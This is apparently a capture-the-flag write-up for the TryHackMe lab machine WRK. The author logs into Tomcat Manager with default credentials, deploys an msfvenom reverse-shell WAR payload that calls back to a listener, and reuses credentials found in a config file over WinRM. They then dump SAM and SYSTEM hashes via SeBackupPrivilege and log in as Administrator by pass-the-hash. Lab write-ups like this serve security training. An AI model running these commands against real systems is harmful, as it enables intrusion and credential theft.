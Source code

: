 # WRK.TRYHACKME.LOC

## Machine Information

Domain Name: tryhackme.loc

Machine name: WRK

## Ports Scan

```bash
nmap -T4 -A -p- --min-rate 1000 --open -oN port_scan.txt wrk.tryhackme.loc -Pn

Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-09 16:14 CEST
Nmap scan report for wrk.tryhackme.loc (10.200.150.20)
Host is up (0.049s latency).
Not shown: 65531 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE       VERSION
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-08-09T14:17:29+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: TRYHACKME
|   NetBIOS_Domain_Name: TRYHACKME
|   NetBIOS_Computer_Name: WRK
|   DNS_Domain_Name: tryhackme.loc
|   DNS_Computer_Name: WRK.tryhackme.loc
|   DNS_Tree_Name: tryhackme.loc
|   Product_Version: 10.0.17763
|_  System_Time: 2025-08-09T14:16:49+00:00
| ssl-cert: Subject: commonName=WRK.tryhackme.loc
| Not valid before: 2025-04-09T09:59:17
|_Not valid after:  2025-10-09T09:59:17
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8080/tcp open  http          Apache Tomcat (language: en)
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.50
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (91%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (91%), Microsoft Windows 10 1903 - 21H1 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-08-09T14:16:51
|_  start_date: N/A

TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   48.98 ms 10.250.1.1
2   49.35 ms wrk.tryhackme.loc (10.200.150.20)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 176.06 seconds

```



## Ports Enumeration

### 8080 - Apache Tomcat

<figure><img src="../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

The version 8.5.50 doesn't seem vulnerable.

Try to authenticate into the page clicking in the "Manage App" button. And try with some possible default password of TomCat:&#x20;

```
Apache Tomcat Host Manager (web)	admin	admin
Apache Tomcat Host Manager (web)	ADMIN	ADMIN
Apache Tomcat Host Manager (web)	admin	<blank>
Apache Tomcat Host Manager (web)	admin	j5Brn9
Apache Tomcat Host Manager (web)	admin	tomcat
Apache Tomcat Host Manager (web)	cxsdk	kdsxc
Apache Tomcat Host Manager (web)	j2deployer	j2deployer
Apache Tomcat Host Manager (web)	ovwebusr	OvW*busr1
Apache Tomcat Host Manager (web)	QCC	QLogic66
Apache Tomcat Host Manager (web)	role1	role1
Apache Tomcat Host Manager (web)	role1	tomcat
Apache Tomcat Host Manager (web)	role	changethis
Apache Tomcat Host Manager (web)	root	root
Apache Tomcat Host Manager (web)	tomcat	changethis
Apache Tomcat Host Manager (web)	tomcat	s3cret
Apache Tomcat Host Manager (web)	tomcat	tomcat
Apache Tomcat Host Manager (web)	xampp	xampp
```

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

With the `tomcat : s3cret`  creds we are in.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Craft WAR payload with msfvenom

```bash
msfvenom -p java/shell_reverse_tcp lhost=10.250.1.6 lport=9009 -f war -o shell.war
```

And start a listener with netcat

```
nc -lvnp 9009
```

Upload the WAR payload and then open the application from the Management page

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We dive into this page and a connection has been establish

<figure><img src="../../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (5) (1) (1).png" alt=""><figcaption></figcaption></figure>







## Lateral Movement

### Credentials in Tomcat conf file

Checking in configuration file i found this interesting file with new credentials

```
more C:/tomcat/apache-tomcat-8.5.50/conf/tomcat-users.xml

<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users>
<role rolename="manager-gui"/>
<user username="tomcat" password="s3cret" roles="manager-gui"/>
<!-- Note:  Keeping credentials as default. Migration to the AD user is not yet fully working. Will be fixed in the future
<user username="svc.callback" password="qvBVAj9avM3ykcbf9s" roles="manager-gui"/>
 -->
</tomcat-users>
```

New credentials: `svc.callback : qvBVAj9avM3ykcbf9s`&#x20;



### Access through WinRM

Try this credentials found with `evil-winrm` tool.

```bash
evil-winrm -i wrk.tryhackme.loc -u 'svc.callback' -p 'qvBVAj9avM3ykcbf9s'
```

This command allow us to access into the WRK machine as `svc.callback` user.

<figure><img src="../../../.gitbook/assets/image (6) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Privilege Escalation

### Windows Local Enumeration

With the follow command we can see all information about `svc.callback` user.

```powershell
whoami /all
```

<figure><img src="../../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

From this information we can understand that the user has:

* **SeBackupPrivilege/SeRestorePrivilege**: this permisions allows an attacker to dump the all file in the system.
* is Group Owner of the local Administratos group
* SeImpersonatePrivilege: this permission allows an attacker to impersonate all authenticated user.
* Is Domain user. With this informations

```bash
User Name              SID
====================== ============================================
tryhackme\svc.callback S-1-5-21-1966530601-3185510712-10604624-3121
```



### Exploit SeBackupPrivilege

An attacker with this privilege can copy the SAM and SYSTEM file querying the registry and extract credentials from this files.

```powershell
cd C:\Temp

reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```

{% code title="Evil-winrm shell" %}
```bash
download sam
download system
```
{% endcode %}

```bash
impacket-secretsdump -sam sam -system system LOCAL

Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xfa0661c3eee8696eeb436f2bafa060e7
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e75f25c6788a558e4f3f49714ed95e41:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:95f2822ae7e725c8e30b2b31f66c1b86:::
[*] Cleaning up... 
```

<figure><img src="../../../.gitbook/assets/image (8) (1) (1).png" alt=""><figcaption></figcaption></figure>



### Administrator access with Pass-the-Hash

An attacker with the Administrator NTLM could make access to the machine using the Pass-the-Hash technique.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>evil-winrm -i wrk.tryhackme.loc -u 'Administrator' -H 'e75f25c6788a558e4f3f49714ed95e41'
</strong></code></pre>

<figure><img src="../../../.gitbook/assets/image (9) (1) (1).png" alt=""><figcaption></figcaption></figure>





## Machine Flag

To demostrate that we have compromised this machine, get the machine's flag.

```
more C:\flag.txt

THM{97fcebcc-cc05-4212-bd05-73730eeee0ed}
```



